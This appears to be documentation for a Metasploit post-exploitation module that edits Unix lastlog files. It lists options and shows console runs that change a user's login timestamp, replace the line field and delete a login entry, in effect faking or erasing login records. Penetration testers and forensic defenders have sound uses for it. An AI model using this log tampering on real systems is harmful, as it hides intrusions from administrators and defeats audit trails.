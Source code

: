 This module modifies lastlog logfiles. It allows to remove a log entry or to modify entries selected by a search string/regex. Also a custom timestamp can be insered for a selected user.

## Module Options

**FILES**

Define a special file to dump. If not defined the common path for Linux and Solaris is checked for a lastlog file

**NEW_TIME**

Set this time as new timestamp for selected user. Format is relativ flexible because it uses [Time.parse](http://ruby-doc.org/stdlib-2.2.3/libdoc/time/rdoc/Time.html#method-c-parse).

**REPLACE**

Replace string to be insered into log entry instead of the original string. This can be used for generating faked logs.

**STRING**

Search log entries for a special string (Regex) and remove them or replace with another string (if REPLACE is defined)

**USER**

Select a special user. (This might be the most common usecase here)

**USE_UPDATEDB**

Use or created (if not already created) updatedb for finding logfiles

**SESSION**

Which session to use, which can be viewed with `sessions -l`


## Scenario
current entry for user:

```
user              :0.0                        2016-01-19 22:44:09 +0100
```

### changing timestamp of an user:
```
msf post(clear_lastlog) > set FILES /tmp/lastlog
FILES => /tmp/lastlog
msf post(clear_lastlog) > set NEW_TIME Sat 29 Oct 23:25:21 CEST 2016
NEW_TIME => Sat 29 Oct 23:25:21 CEST 2016
msf post(clear_lastlog) > set USER 1000
USER => 1000
msf post(clear_lastlog) > run

[*] Need modify	uid=1000 user=user Line=|:0.0| Host=|| Time=1453239849
[*] 1453239849 -> 2016-10-29 23:25:21 +0200
[*] Post module execution completed
```
New entry:

```
usr              :0.0                        2016-10-29 23:25:21 +0200
```

### Changing the "line" entry of an user
```
msf post(clear_lastlog) > unset NEW_TIME
Unsetting NEW_TIME...
msf post(clear_lastlog) > set StRING :0.0
StRING => :0.0
msf post(clear_lastlog) > set REPLACE localhost
REPLACE => localhost
msf post(clear_lastlog) > run

[*] Regex /(?-mix::0.0)/ matches
[*] Need modify	uid=1000 user=user Line=|:0.0| Host=|| Time=1453239849
[*] :0.0 -> localhost
[*] Post module execution completed
```
New entry:

```
user              localhost                   2016-01-19 22:44:09 +0100
```

### Delete an entry:
```
msf post(clear_lastlog) > set USER 1000
USER => 1000
msf post(clear_lastlog) > run
[*] Need modify	uid=1000 user=user Line=|:0.0| Host=|| Time=1453239849
[*] Post module execution completed
```
New entry:

```
user                                          **Never logged in**
```
